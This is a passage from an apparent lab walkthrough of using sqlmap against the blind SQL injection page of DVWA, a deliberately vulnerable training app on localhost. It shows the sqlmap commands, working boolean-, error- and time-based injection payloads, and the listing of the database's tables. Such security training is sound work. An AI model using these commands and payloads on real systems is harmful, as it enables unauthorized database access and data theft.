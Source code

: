    [10:18:03] [WARNING] HTTP error codes detected during run:
    404 (Not Found) - 5 times
    [10:18:03] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/127.0.0.1'

    [*] ending @ 10:18:03 /2023-12-14/
    ```

2. So we found out that there are 2 databases: `dvwa` and `information_schema` as well as the SLQ's database version, `back-end DBMS: MySQL >= 5.0 (MariaDB fork)`. We can now proceed on enumerating the tables (`--tables`) of the `dvwa` database (`-D dvwa`). We also added the `--batch` option to avoid prompts and go with the defaults and `--threads` to speed up the process:

    ```shell
    $ sqlmap --url="http://127.0.0.1:42001/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=tnusaaspju33gd737338bcnhrl; security=low" --data="id=1&Submit=Submit" -p id -D dvwa --tables --batch --threads 5
            ___
        __H__
    ___ ___[']_____ ___ ___  {1.7.12#stable}
    |_ -| . ["]     | .'| . |
    |___|_  [.]_|_|_|__,|  _|
        |_|V...       |_|   https://sqlmap.org

    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

    [*] starting @ 10:38:55 /2023-12-14/

    [10:38:55] [INFO] resuming back-end DBMS 'mysql'
    [10:38:55] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: id=1' AND 2879=2879 AND 'FGUV'='FGUV&Submit=Submit

        Type: error-based
        Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: id=1' AND (SELECT 5082 FROM(SELECT COUNT(*),CONCAT(0x716b627071,(SELECT (ELT(5082=5082,1))),0x717a716a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'VSXt'='VSXt&Submit=Submit

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=1' AND (SELECT 9523 FROM (SELECT(SLEEP(5)))RuBI) AND 'DZYn'='DZYn&Submit=Submit
    ---
    [10:38:55] [INFO] the back-end DBMS is MySQL
    web application technology: Nginx 1.24.0
    back-end DBMS: MySQL >= 5.0 (MariaDB fork)
    [10:38:55] [INFO] fetching tables for database: 'dvwa'
    [10:38:55] [INFO] starting 2 threads
    [10:38:55] [INFO] retrieved: 'users'
    [10:38:55] [INFO] retrieved: 'guestbook'
    Database: dvwa
    [2 tables]
    +-----------+
    | guestbook |
    | users     |
    +-----------+
